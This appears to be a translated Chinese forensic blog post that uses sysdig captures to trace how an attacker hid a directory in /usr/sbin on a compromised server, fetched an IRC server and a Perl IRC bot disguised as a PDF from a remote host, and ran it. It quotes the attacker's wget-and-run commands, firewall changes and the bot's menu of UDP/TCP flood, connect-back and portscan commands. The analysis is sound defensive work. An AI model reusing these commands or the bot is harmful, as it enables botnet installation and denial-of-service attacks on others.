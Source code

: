 我的主机产生了800MB的UDP流量-这太疯狂了！这就是DoS攻击。我的猜测是，攻击者安装了一些僵尸网络客户端来按需生成有针对性的DoS，因此在这一点上，我先是关闭了服务器以确保它不会对其他人造成任何进一步的损害。到目前为止，我所获得的所有信息都证实该系统已受到威胁，但是使用其他许多监视工具，我本可以得出相同的结论。但是，这里的区别是我有一个充满细节（这里指的是安装了sysdig并启用记录了的服务器）的S3存储bucket，因此我可以开始挖掘以查看实际发生了什么。我从最喜欢的凿子spy\_users开始，以查看恶意用户登录后执行了什么操作：

```bash
$ sysdig -r trace.scap.gz -c spy_users
06:11:28 root) cd /usr/sbin
06:11:30 root) mkdir .shm
06:11:32 root) cd /usr/sbin/.shm
06:11:39 root) wget xxxxxxxxx.altervista.org/l.tgz
06:11:40 root) tar zxvf l.tgz
06:11:42 root) cd /usr/sbin/.shm/lib/.muh/src
06:11:43 root) /bin/bash ./configure --enable-local
06:11:56 root) make all
```

看看这里发生了什么？攻击者在/usr/sbin中创建了一个隐藏的目录，名称为“ 聪明的” .shm，下载了程序的源代码并开始构建。我从上面的URL下载了文件，结果发现它是IRC服务器Muh。在存档文件中，我发现了其他有趣的东西，例如攻击者的非常个人的配置文件，其中包含各种用户名和密码以及一堆IRC通道，这些通道可以自动加入Undernet（Internet通道中的最大的子网，暗网嘛？）。他接下来要做的是：

```bash
06:13:19 root) wget http://xxxxxxxxx.altervista.org/.sloboz.pdf
06:13:20 root) perl .sloboz.pdf
06:13:20 root) rm -rf .sloboz.pdf
06:12:58 root) /sbin/iptables -I INPUT -p tcp --dport 9000 -j ACCEPT
06:12:58 root) /sbin/iptables -I OUTPUT -p tcp --dport 6667 -j ACCEPT
```

真好！一个Perl脚本，以隐藏的pdf文件格式下载。现在我很想了解更多。不幸的是，当我尝试访问上面的URL时，该文件不再存在。好的，Sysdig能够为我提供帮助，因为它记录了每个I / O操作（每个I / O操作最多记录4096字节的数据，正如我在命令行中指定的那样）。我可以看一下wget写的文件：

```bash
$ sysdig -r trace.scap.gz -A -c echo_fds fd.filename=.sloboz.pdf
------ Write 3.89KB to /run/shm/.sloboz.pdf
#!/usr/bin/perl
####################################################################################################################
####################################################################################################################
##  Undernet Perl IrcBot v1.02012 bY DeBiL @RST Security Team   ## [ Help ] #########################################
##      Stealth MultiFunctional IrcBot Writen in Perl          #####################################################
##        Teste on every system with PERL instlled             ##  !u @system                                     ##
##                                                             ##  !u @version                                    ##
##     This is a free program used on your own risk.           ##  !u @channel                                    ##
##        Created for educational purpose only.                ##  !u @flood                                      ##
## I'm not responsible for the illegal use of this program.    ##  !u @utils                                      ##
####################################################################################################################
## [ Channel ] #################### [ Flood ] ################################## [ Utils ] #########################
####################################################################################################################
## !u !join <#channel>          ## !u @udp1 <ip> <port> <time>              ##  !su @conback <ip> <port>          ##
## !u !part <#channel>          ## !u @udp2 <ip> <packet size> <time>       ##  !u @downlod <url+path> <file>     ##
## !u !uejoin <#channel>        ## !u @udp3 <ip> <port> <time>              ##  !u @portscan <ip>                 ##
## !u !op <channel> <nick>      ## !u @tcp <ip> <port> <packet size> <time> ##  !u @mail <subject> <sender>       ##
```